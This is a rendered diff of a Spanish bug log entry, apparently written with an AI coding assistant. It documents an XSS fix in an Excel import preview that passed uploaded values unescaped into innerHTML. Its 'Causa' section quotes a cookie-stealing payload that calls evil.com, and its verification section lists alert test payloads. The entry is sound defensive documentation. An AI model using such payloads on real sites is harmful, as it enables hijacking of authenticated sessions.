

Before and after one commit to myggaames-ctrl/nimbo.exe, a Markdown page: BUGS_Y_FIXES.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: documentar el fix de XSS en BUGS_Y_FIXES.md
Co-Authored-By: Claude Sonnet 5 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01F2vBwDngSipj3pb4jB2XVM

```diff
--- a/BUGS_Y_FIXES.md
+++ b/BUGS_Y_FIXES.md
@@ -1385,3 +1385,45 @@ por separado para confirmar que generan HTML valido sin errores de sintaxis.
 
 **Archivos modificados:** `database/nimbo_db.py`, `app.py`, `templates/index.html`,
 `CLAUDE.md`.
+
+---
+
+## [2026-07-19] XSS en el preview/resultado de importación de Excel
+
+**Problema:** el review de seguridad automático del commit anterior (plugin
+`security-guidance@claude-code-plugins`) encontró que el modal de importación masiva de
+productos (agregado en la instalación anterior, ver entrada de "importación de Excel
+con preview y mapeo de columnas") armaba el HTML del preview de columnas, la lista de
+errores y la lista de duplicados con template strings interpolados directo en
+`innerHTML`, sin escapar ningún valor.
+
+**Causa:** los encabezados y las celdas que se muestran en esas 3 tablas vienen
+literalmente del archivo Excel/CSV que el usuario acaba de subir - datos no confiables
+por definición. Un encabezado o una celda con algo como `<img src=x
+onerror=fetch('https://evil.com/steal?c='+document.cookie)>` se interpretaba como HTML
+real al insertarse en `innerHTML`, en vez de mostrarse como texto - se hubiera
+ejecutado dentro de la sesión ya autenticada del admin (con acceso a usuarios,
+configuración, contabilidad, etc.), no en una sandbox aislada. Bastaba con que un
+proveedor o un tercero le mandara al admin un "listado de productos" con ese
+encabezado disfrazado de columna rara, y que el admin lo subiera para previsualizarlo.
+
+**Cómo se arregló:** se agregó `escHtml(valor)` en `templates/index.html` - crea un
+`<div>` de verdad, le asigna el valor a `textContent` (que nunca interpreta HTML), y
+lee de vuelta `innerHTML` (que sí devuelve el texto ya escapado) - mismo patrón que
+usa cualquier librería de sanitización simple, sin agregar una dependencia nueva. Se
+aplicó a las 3 tablas que muestran datos del archivo subido: el preview de columnas
+(encabezados y celdas), la lista de errores de importación (el `motivo` incluye el
+nombre del producto tal como venía en la fila) y la lista de duplicados detectados
+(nombre del producto entrante). Los valores que SÍ son fijos/controlados por el
+servidor (las etiquetas de `campos_disponibles`, los precios/stock ya validados como
+número) se dejaron sin escapar a propósito - no hacía falta, y escaparlos todo
+uniformemente hubiera sido ruido de más sin beneficio real.
+
+**Verificación:** se extrajeron las funciones de renderizado con Node.js (mismo
+mecanismo ya usado para probar `textoChatSinInventario()` en la instalación anterior)
+y se les pasó un payload simulando un archivo malicioso (`<img src=x
+onerror=alert(1)>` como encabezado, `<script>alert(2)</script>` como celda) - el HTML
+generado mostró `&lt;img src=x onerror=alert(1)&gt;` y `&lt;script&gt;alert(2)&lt;
+/script&gt;` como texto escapado, no como etiquetas reales.
+
+**Archivos modificados:** `templates/index.html`.
```
